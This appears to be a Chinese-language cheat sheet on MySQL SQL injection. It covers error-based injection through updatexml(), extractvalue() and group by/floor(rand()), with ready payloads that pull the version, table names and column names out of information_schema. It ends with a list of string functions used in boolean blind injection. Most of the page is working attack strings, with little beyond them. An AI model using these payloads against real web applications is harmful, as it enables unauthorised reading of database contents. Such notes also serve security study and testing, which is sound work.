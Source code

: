 ## 报错注入：
①MySQL提供了一个 updatexml() 函数，当第二个参数包含特殊符号时会报错，并将第二个参数的内容显示在报错信息中

`?id=1' and updatexml(1, concat(0x7e,(version())),0x7e)`

②利用extractvalue（）对数据进行一个排序，指定第一个参数为null，可以换成1、#或者其他符号，使其报错，并执行第二个参数语句。0x7e表示”-“号

`extractvalue(null,concat(0x7e,(sqli_inject),0x7e))`

`select group_concat(table_name) from information_schema.tables where table_schema=database()`

前面说过extractvalue（）最大返回长度为32，所以可以用limit N，1 一行一行的回显。

`sqli_inject = select table_name from information_schema.tables where table_schema=database() limit 0,1`

③group by：

`select count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2))`

```
当报错开启时：
1' || extractvalue(null,concat(0x7e,(select * from a),0x7e))#
也可能爆出库

爆出表名后可以：
1' || extractvalue(null,concat(0x7e,(select * from (select * from output a join output b) c),0x7e))#
爆出列名
```



## 布尔盲注
```sql
常配合以下函数

substr() / substring():
从字符串中提取前5个字符：(column_name, 1, 5)

left():
从字符串的左侧提取前3个字符：(column_name, 3)

right():
从字符串的右侧提取后4个字符：(column_name, 4)

mid():
从字符串的第2个字符开始提取5个字符：(column_name, 2, 5)

like:
查找以 "ABC" 开头的字符串：LIKE 'ABC%';

rlike (MySQL正则表达式):
查找包含数字的字符串：column_name RLIKE '[0-9]';
RLIKE BINARY:
区别大小写

instr():
查找子字符串 "abc" 在字符串中的位置：INSTR(column_name, 'abc')

IFNULL():
如果值为NULL，则返回默认值：IFNULL(column_name)

exp():
计算e的平方值：exp(2)


```